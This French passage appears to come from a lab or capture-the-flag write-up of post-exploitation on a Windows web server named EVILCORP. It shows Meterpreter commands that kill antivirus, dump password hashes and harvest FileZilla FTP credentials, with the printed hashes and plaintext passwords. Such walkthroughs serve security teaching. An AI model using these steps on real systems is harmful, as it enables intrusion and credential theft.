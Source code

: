 La machine ne fait partie d'aucun réseau local ni domaine Windows, on va s'en tenir à la récupération d'identifiants.  

```plain
meterpreter > getuid
Server username: AUTORITE NT\Syst�me

meterpreter > run killav
[*] Killing Antivirus services on the target...
[*] Killing off avp.exe...
```

Après cette opération `avp.exe` reste toujours dans la liste des processus. Mais mon installation de *Metasploit* date un peu. Difficile de dire quel est l'état de l'antivirus après ça et si ça a eu un quelconque impact.  

```plain
meterpreter > run hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 179da64596822c5bcfdaeae71751ad0e...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrateur:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invit�:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WebServer:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Les utilisateurs ont tous le même hash correspondant à l'absence de mot de passe... Sous prétexte que les services Windows ne sont pas accessibles depuis l'extérieur on en oublie les bonnes pratiques de base :D  

Trophé
-------

On a vu plus tôt que le client `Filezilla` était utilisé, voyons ce qu'on peut obtenir comme identifiants...  

```plain
meterpreter > run get_filezilla_creds
[*] Running Meterpreter FileZilla Credential harvester script
[*] All services are logged at /root/.msf4/logs/filezilla/EVILCORP_WEBSERVER_20170618.5630/EVILCORP_WEBSERVER_20170618.5630.txt
[*] Running as SYSTEM extracting user list..
[*] Checking if Filezilla profile is present for user :::Admin:::...
[-] Filezilla profile not found!
[*] Checking if Filezilla profile is present for user :::WebServer:::...
[*] FileZilla profile found!
[*] Reading sitemanager.xml file...
[*]     Host: ftp.supplier.fr
[*]     Port: 21
[*]     User: client425
[*]     Password: nYZd4PkX
[*]     Protocol: FTP
[*] 
[*] Reading recentservers.xml file...
[*]     Host: ftp.supplier.fr
[*]     Port: 21
[*]     User: EVILCORP
[*]     Password: P@ssw0rd!
[*]     Protocol: FTP
[*] 
```